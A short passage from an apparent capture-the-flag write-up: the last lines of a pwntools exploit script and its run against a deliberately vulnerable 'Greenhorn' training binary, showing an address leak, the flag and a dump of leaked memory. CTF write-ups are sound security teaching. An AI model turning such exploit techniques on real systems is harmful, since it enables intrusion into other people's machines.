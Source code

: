 ```
target.sendline(payload)

target.interactive()
```

When we run the exploit:
```
$ python exploit.py
[+] Opening connection to 192.168.13.1 on port 9998: Done
[*] Base is: 0x490000
[*] Stack infoleak: 0x99fa70


Greenhorn Menu:
--------------
    (D)ebugging
    (S)tatic Analysis
    S(h)ellcode
    (A)SLR
    (N)X/DEP
    (V)ulnerability
    (Q)uit

Selection:

VULNERABLE FUNCTION
-------------------
Send me exactly 1024 characters (with some constraints).


[*] Switching to interactive mode
flag{insert_flag_here}\x99\x00\xac����\x99\x000��\xff\\x00\x00\x00<��r\x0bw�1�\x0��\x00\x00\x00\x00\x00\x00\x000��\x0bw�1�\x00000\x0\x00\x00\x00�w\x00\x00\x00B\x00\x07w\x00\x00\x00\x00B\x0(��\x00\x00\x00B\x00\x00\x00�1�\x00\x00\x00\x00\x00\x05\x00\x00\x00 \x00\x00C\x00:\x00\\x00U\x00s\x00e\x00r\x00s\x00\\x00g\x00u\x00y\x00i\x00n\x00a\x00t\x00u\x00x\x00e\x00d\x00o\x00\\x00D\x00e\x00s\x00k\x00t\x00o\x00p\x00\\x00k\x00e\x00y\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

Just like that, we got the flag!